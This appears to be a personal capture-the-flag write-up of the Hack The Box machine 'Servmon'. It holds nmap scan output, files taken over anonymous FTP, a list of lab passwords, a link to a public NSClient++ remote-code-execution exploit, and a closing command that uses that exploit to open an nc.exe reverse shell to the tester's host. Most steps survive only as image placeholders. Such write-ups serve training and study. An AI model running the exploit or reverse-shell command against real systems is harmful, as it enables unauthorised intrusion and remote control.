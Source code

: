 # Servmon writeup
```
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  11:05AM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open     ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds?
2107/tcp filtered msmq-mgmt
5666/tcp open     tcpwrapped
6699/tcp open     napster?
8443/tcp open     ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03 0c40 5b7a 0f6d d8c8 78e3 cba7 38b4
|_SHA-1: 7083 bd82 b4b0 f9c0 cc9c 5019 2f9f 9291 4694 8334
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.91%T=SSL%I=7%D=1/12%Time=5FFDCA61%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation
SF::\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0s\0e\0\0\0l\0\0\0\0\0\x02\
SF:0\0\0\0\0\0\0s\0d\0a\0y\0:\0T\0h\0u\0:\0T\0h\0u\0r\0s\0")%r(HTTPOptions
SF:,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x
SF:20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x
SF:2018\r\n\r\nDocument\x20not\x20found")%r(RTSPRequest,36,"HTTP/1\.1\x204
SF:04\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(SIPOpti
SF:ons,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20no
SF:t\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-12T16:16:17
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 12 17:14:03 2021 -- 1 IP address (1 host up) scanned in 257.27 seconds

nmap --script smb* -p445,135 10.10.10.184
```

![](2021-01-12-17-17-02.png)

kali@kali:~/htb/boxes/servmon/10.10.10.184$ tree ftp/
ftp/
└── Users
    ├── Nadine
    │   └── Confidential.txt
    └── Nathan
        └── Notes to do.txt

3 directories, 2 files




kali@kali:~/htb/boxes/servmon/10.10.10.184$ cat ftp/Users/Nadine/Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards


kali@kali:~/htb/boxes/servmon/10.10.10.184$ cat ftp/Users/Nathan/Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint


![](2021-01-12-17-19-06.png)

NSClient++

https://github.com/RalfHacker/nsclient-0.5.2.35-RCE-exploit/blob/master/exploit.py


kali@kali:~/htb/boxes/servmon/10.10.10.184$ smbclient -L '\\10.10.10.184'
Enter WORKGROUP\kali's password: 
session setup failed: NT_STATUS_ACCESS_DENIED


There was some bug not showing me port 80, for some reason only the full scan revealed it
![](2021-01-13-10-07-41.png)

![](2021-01-13-10-09-11.png)


![](2021-01-13-10-10-31.png)

> 1) Change the password for NVMS - Complete

![](2021-01-13-10-18-45.png)


![](2021-01-13-10-20-15.png)

![](2021-01-13-10-22-13.png)

![](2021-01-13-10-31-40.png)

![](2021-01-13-10-31-54.png)


![](2021-01-13-10-32-28.png)

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$



Nadine L1k3B1gBut7s@W0rk

![](2021-01-13-10-34-10.png)


![](2021-01-13-10-35-04.png)



![](2021-01-13-10-36-22.png)

![](2021-01-13-10-36-44.png)

![](2021-01-13-10-38-01.png)


![](2021-01-13-10-39-28.png)
![](2021-01-13-10-39-10.png)


![](2021-01-13-11-26-29.png)


![](2021-01-13-11-27-48.png)



password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
![](2021-01-13-11-41-55.png)
![](2021-01-13-11-41-42.png)




![](2021-01-13-11-51-52.png)


PS C:\Users\Nadine\Desktop>  [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      18363  0


![](2021-01-13-11-57-10.png)

![](2021-01-13-12-14-46.png)

![](2021-01-13-12-14-55.png)


![](2021-01-13-12-18-03.png)

![](2021-01-13-12-20-06.png)

![](2021-01-13-12-20-57.png)

![](2021-01-13-12-29-47.png)

![](2021-01-13-13-17-16.png)

![](2021-01-13-13-19-54.png)



python3 48360.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c "c:\\temp\\nc.exe -e cmd 10.10.14.6 1234"


![](2021-01-13-17-03-45.png)


Horrible box!